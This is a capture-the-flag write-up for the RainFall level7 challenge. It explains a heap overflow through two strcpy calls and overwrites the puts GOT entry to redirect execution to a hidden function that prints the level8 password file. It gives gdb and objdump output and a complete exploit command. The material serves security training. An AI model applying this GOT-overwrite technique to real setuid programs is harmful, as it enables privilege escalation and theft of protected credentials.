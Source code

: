 # Level7

## Context & Explanation
 * There is one file in our home, ```level7```, belonging to ```level8``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* In the `main()` 
		* There is 4 calls to `malloc()`:
			* ![Malloc Layout](Ressources/Malloc_Dump.png)
			1. The 1st one holds value `0x1`, and the address of the 2nd malloc
			2. The 2nd one is left empty
			3. The 3rd one holds value `0x2`, and the address of the 4th malloc
			4. The 4th one is left empty
		* We got then got 2 calls to `strcpy()`
			1. One with `av[1]` as source and the adress of the 2nd malloc which is written in the 1st malloc `malloc_one[1]`
			1. One with `av[2]` as source and the adress of the 4th malloc which is written in the 3rd malloc `malloc_three[1]`
		* The the program calls `fopen()` on `/home/user/level8/.pass`
		* The program calls `fgets()` on this file and save the content in the global `c`
		* And finnaly a call to `puts()` with `"~~"` as argument.
	* The 2nd interesting function, which is never called `m()`
		* There is a call to `printf()` which display time and the content of the global `c` (the same that is filled by `fgets()` with the flag needed to access the next level)

## Exploited vulnerability

We will use a Buffer-Overflow attack on the 1st `strcpy()` to change the destination of the 2nd.
We will then do a 2nd Buffer-Overflow attack to change the DYNAMIC RELOCATION RECORD of `puts` so instead of calling the libc function, it will call the wanted `m()` function

For doing so we need 2 adresses, the one from Dynamic Relocation Record of `puts`
```sh
level7@RainFall:~$ objdump --dynamic-reloc level7

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen

```

And the adress of the `m()` function

```sh
level7@RainFall:~$ objdump -D  level7 | grep '<m>'
080484f4 <m>:
```

The last detail to think of is to reverse the adresses and check at which offset we need to write from the 1st malloc to access the 3rd one.

In gdb we can take care of looking the offset, thanks to the 0x2 value written at the begining of the 3rd malloc:

```
gdb-peda$ x/20x 0x0804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```
And we see that we will need to skip 20 octets from the starting adress of the 1st `strcpy()`.


## Resolution

```
./level7 `python -c "print('a' * 20 + '28990408'.decode('hex'))"` `python -c "print('f4840408'.decode('hex'))"`
```

